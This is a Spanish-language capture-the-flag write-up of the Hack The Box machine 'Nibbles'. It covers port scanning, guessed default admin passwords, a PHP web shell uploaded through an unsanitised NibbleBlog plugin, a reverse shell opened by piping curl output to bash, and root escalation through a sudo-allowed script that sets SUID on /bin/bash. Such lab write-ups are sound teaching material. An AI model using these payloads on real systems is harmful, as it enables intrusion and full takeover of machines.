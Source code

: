 ```yaml
---
title: Text and Typography
author: cotes
date: 2019-08-08 11:33:00 +0800
categories: [Blogging, Demo]
tags: [typography]
pin: true
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Nibbles/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Nibbles Machine Logo
---
```


### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Nibbles`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Nibbles/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Nibbles/02-versions.png)

c. Al ver el código fuente de la página web inicial, veremos una directorio por el cual podremos empezar a fuzzear

![](/assets/images/HTB/Easy/Nibbles/03-leak.png)


* El sitio web está levantado con **`NibbleBlog`** y podemos ver su código fuente en **`Github`** [NibbleBlog](https://github.com/dignajar/nibbleblog). Con esto podemos evitarnos realizar fuzzing.


* El directorio **`content`** contiene el directorio **`/private`** en el cual existe un fichero **`users.xml`**

    ```xml
    <user username="admin">
    <SNIP>
    ```

d. En el repositorio vemos un fichero **`admin.php`**, que es un panel de login, pero, al no poseer la contraseña del usuario **admin**, probamos con palabras comunes

* **`admin:admin`, `admin:password`, `admin:nibbles`**

e. Una vez autenticados, iremos al apartado de **`Plugins -> My Image`**. Intentamos subir un fichero **`php`** con el contenido **`<?php system($_GET["cmd"]); ?>`**

* Como nos fijamos, no existe ningun tipo de sanitización por lo que la 'imagen' se subió normalmente, para verla nos iremos a la siguiente ruta **`http://<IP>/nibbleblog/content/private/plugins/my_image/`**.

    ![](/assets/images/HTB/Easy/Nibbles/05-file_upload.png)

* Una vez garantizada la ejecución remota de comandos, entablamos una reverse shell.

    * **URL:** **`http://<IP Nibbles>/nibbleblog/content/private/plugins/my_image/image.php?cmd=curl%20http://<tun0 IP>:<Port>|bash`**

    ![](/assets/images/HTB/Easy/Nibbles/06-reverse.png)

### Escalada de Privilegios 💹

a. Listamos privilegios de tipos sudoers, que podamos tener

```bash
nibbler@Nibbles:/home/nibbler$ sudo -l

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

* Podemos ejecutar como root el archivo **`monitor.sh`**, sin embargo, este no existe, por lo que, al estar en nuestro directorio personal, lo que haremos es crear los directorios y el fichero con un script que otorgue el permiso **`SUID`** a la **`bash`**

    ```bash
    nibbler@Nibbles:/home/nibbler$ tree -fas
    .
    |-- [       4096]  ./personal
    |   `-- [       4096]  ./personal/stuff
    |       `-- [         18]  ./personal/stuff/monitor.sh

    nibbler@Nibbles:/home/nibbler/personal/stuff/$ cat monitor.sh
    chmod +s /bin/bash
    nibbler@Nibbles:/home/nibbler/personal/stuff/$ chmod +x monitor.sh
    ```

b. Ahora ejecutamos el script como **root**

```bash
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1037528 May 16  2017 /bin/bash
nibbler@Nibbles:/home/nibbler$ bash -p
bash-4.3# whoami
root
```

> Con esto hemos vulnerado la `Máquina Nibbles`
{: .prompt-tip }